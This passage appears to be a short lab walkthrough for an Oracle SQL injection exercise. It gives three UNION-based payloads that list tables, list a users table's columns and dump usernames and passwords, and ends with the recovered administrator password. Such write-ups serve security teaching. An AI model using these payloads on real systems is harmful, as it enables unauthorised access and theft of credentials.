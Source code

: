 * To solve the lab, log in as the administrator user.

Solution:

Reusing the experience above, we have a payload to list table names as `**'+UNION+SELECT+TABLE_NAME,NULL+FROM+all_tables--**`. After we have payload as `**'+UNION+SELECT+COLUMN_NAME,DATA_TYPE+FROM+all_tab_columns+WHERE+TABLE_NAME+=+'USERS_TTAZON'--**` and `**'+UNION+SELECT+PASSWORD_DACSDY,USERNAME_XICVMM+FROM+USERS_TTAZON--**`. Finally, we get *administrator* and *vbp1uh0zrpdgrquanuih*
